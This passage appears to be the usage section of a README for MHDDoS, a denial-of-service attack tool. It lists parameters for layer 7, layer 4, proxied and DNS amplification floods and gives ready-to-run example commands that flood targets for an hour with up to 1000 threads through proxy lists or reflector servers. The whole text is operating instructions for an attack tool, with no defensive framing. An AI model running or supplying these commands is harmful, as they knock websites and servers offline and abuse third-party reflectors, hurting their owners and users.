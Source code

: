 ## Parameters
* Layer7:
   > python3 start.py <1=method> <2=url> <3=socks_type> <4=threads> <5=proxylist> <6=rpc> <7=duration> <8=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 4: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 5: Number of threads to use ([Multi Threading](https://en.wikipedia.org/wiki/Multithreading_(computer_architecture)))
  - 6: RPC (Requests pre connection)
  - 7: Duration (Time to finish attack in seconds)
  - 8: Debug Mode (Optional)

* Layer4 Noraml:
  > python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://en.wikipedia.org/wiki/Multithreading_(computer_architecture)))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Debug Mode (Optional - [What is debug mode](https://github.com/MHProDev/MHDDoS/wiki/what-is-debug-mode))

* Layer4 Proxied:
  > python3 start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=socks_type> <6=proxylist> <7=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://github.com/MHProDev/MHDDoS/wiki/Multithreading))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Proxy Version ([Proxy Usage](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Support-!))
  - 6: Proxy File ([Proxy File Format](https://github.com/MHProDev/MHDDoS/wiki/Proxy-Files))
  - 7: Debug Mode (Optional)

* Layer4 Amplification:
  > python3 MHDDoS/start.py <1=method> <2=ip:port> <3=threads> <4=duration> <5=refelector file> <6=debug=optional>
  - 1: Method (type of attack)
  - 2: Target URL or IP Address
  - 3: Number of threads to use ([Multi Threading](https://en.wikipedia.org/wiki/Multithreading_(computer_architecture)))
  - 4: Duration (Time to finish attack in seconds)
  - 5: Reflectors File ([Reflectors File](https://github.com/MHProDev/MHDDoS/wiki/Amplification-ddos-attack))
  - 6: Debug Mode (Optional)


## Examples
* Layer7 (Website):
```shell script
# Running bypass attack from 101 threads, 
# with socks 5, 100 requests per proxy (connection), for 3600 seconds  
python start.py bypass https://example.com 5 101 socks5.txt 100 3600
# Running bomb attack from 50 threads (be careful must be < 300)
# with all proxies (0), 100 requests per proxy (connection), for 3600 seconds
python start.py bomb https://example.com 0 50 proxy.txt 100 3600
```

* Layer4 (Server/Home):
```shell script
# Running udp attack from 1 threads, for 3600 seconds  
python start.py udp 1.1.1.1:53 1 3600
# Running dns attack from 100 threads, for 3600 seconds  
# with reflector servers from dns.txt, for 3600 seconds  
python start.py dns 1.1.1.1:53 100 3600 dns.txt
# Running minecraft attack from 1000 threads
# with socks 5, for 3600 seconds  
python start.py minecraft 1.1.1.1:53 1000 3600 5 socks5.txt
```

* Debug Mode (Log Attack status):
```shell script
python start.py bypass https://example.com 5 1000 socks5.txt 100 100 true
python start.py udp 1.1.1.1:53 1 100 true
python start.py dns 1.1.1.1:53 1 100 dns.txt true
python start.py minecraft 1.1.1.1:53 1 100 5 socks5.txt true
```

* Tools/Help:
```shell script
python start.py tools
python start.py help
```